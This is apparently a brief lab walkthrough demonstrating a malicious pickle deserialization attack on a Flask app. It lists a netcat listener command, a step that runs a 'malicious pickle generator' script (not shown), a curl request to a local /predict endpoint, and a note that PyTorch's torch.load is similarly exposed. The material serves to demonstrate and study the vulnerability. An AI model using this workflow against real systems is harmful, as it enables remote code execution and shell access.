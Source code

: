 Open a new tab

```
nc -nvl 14344
```

Open a new tab to run the malicious pickle generator scripe

```
python generate_pickle.py
```

Open a new tab to run the Flask app

```
flask run
```

Trigger the endpoint

```
curl -d "x=1" http://127.0.0.1:5000/predict
```

Similarly with PyTorch

```
import torch

torch.load("model.pkl")
```